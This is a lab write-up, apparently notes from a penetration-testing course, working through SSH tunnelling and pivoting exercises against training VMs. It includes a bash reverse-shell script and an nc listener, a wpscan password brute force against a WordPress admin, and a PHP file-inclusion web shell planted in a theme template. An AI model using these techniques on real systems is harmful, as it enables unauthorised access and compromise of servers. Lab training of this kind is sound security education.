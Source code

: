 
# 20.2.2.5
There is an internally hosted website on the target VM #1 which is reachable only from the server's **local address space**. Browse to this server to get the flag  

```bash
ssh -N -L 0.0.0.0:8080:127.0.0.1:80 student@192.168.126.52 -p 2222
```
	first octet: local (attack) listener  
	second octet: target in perspective of the box you're tunneling through  
	user@ip: compromised victim used for tunneling  
  
```bash
curl localhost:8080
```  
	(also, I literally ssh'd into the machine and cat'd /var/www/html/index.html, but that's not the point of this exercise, so...)  
  

  
# 20.2.4.4
The target VM #1 machine has an exploit that is triggered by root every minute that executes a basic _reverse shell_.  
Unfortunately, that shell is trying to connect back to the internal port _5555_ on _127.0.0.1_ on that server, and the server has no tools available to catch this shell.  
To solve this challenge, forward this reverse shell callback from the remote server to your local machine and then use this shell to read the flag.  
  
On Kali: ssh -N -R target_vm:shell_port:kali_localhost:arbitrary_port:
```bash
ssh -N -R 192.168.126.52:5555:127.0.0.1:2221 student@192.168.126.52 -p 2222  
  
  
	<different terminal window>  
  
nc -nlvp 2221
```
	** Can take a minute to get the reverse shell. If nc listener errors out, start the listener first, _then_ ssh

```bash
cat rev.sh  
#!/bin/bash  
bash -i >& /dev/tcp/127.0.0.1/5555 0>&1
```

  

# 20.2.6.6
There is a service running on some TCP port in the range of _30000-35000_ on the target VM #1.  
Find it, and you will find the flag. _Note_: scan takes a couple minutes  

```bash
ssh -N -D 127.0.0.1:8080 student@192.168.173.52 -p 2222  
  
  
	<different terminal window>  
  
proxychains nmap 127.0.0.1 -Pn -p 30000-35000  
	...  
	[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:33525 <-socket error or timeout!  
	[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:31124 <--socket error or timeout!  
	Nmap scan report for localhost (127.0.0.1)  
	Host is up (0.066s latency).  
	Not shown: 5000 closed tcp ports (conn-refused)  
	PORT      STATE SERVICE  
	34023/tcp open  unknown  
  
proxychains nc -nvv 127.0.0.1 34023
```
	nc conn may be a little laggy  
  

  
# 20.2.6.7
There is a WordPress instance running on the target VM #2 that is only accessible locally.  
The flag is not simply in a post once you log in - you need to use this administrative web to gain access to the box as _www-data_.  
To save you time, the admin user is _offsec_. Use your local user SSH access to forward your password attack traffic to this server to determine the admin password.  
Then, utilize this admin access to get a web shell and, finally, read _/home/flag.txt_ to solve this challenge.  
_Note_: for this exercise try different well-known wordlists. Also, make sure to block browser's DNS requests over proxychains.  

```bash
ssh -N -D 127.0.0.1:8080 student@192.168.173.52 -p 2222  
  
  
	<different terminal window>  
  
proxychains nmap 127.0.0.1 -Pn  
	PORT     STATE SERVICE  
	22/tcp   open  ssh  
	80/tcp   open  http  
	3306/tcp open  mysql  
  
  
proxychains wpscan --url http://127.0.0.1/wp-login.php -U offsec -P /usr/share/wordlists/rockyou.txt  
	[!] Valid Combinations Found:  
	 | Username: offsec, Password: amanda1  
  
  
proxychains -q firefox http://localhost:80/wp-login.php
```
	****NOTE: firefox loading will take FOREVER.  
  
Login w/ creds.  
Once at WP Dashboard, On left -  
GoTo - Appearence > Editor > (right side) 404.php Template  
Add & Update file:  
```php
<?php  
    $file = $_GET["file"];  
    include $file;  ?>
```

Navigate to: hXXp://127.0.0.1/wp-content/themes/<theme_name>/404.php?file=/home/flag.txt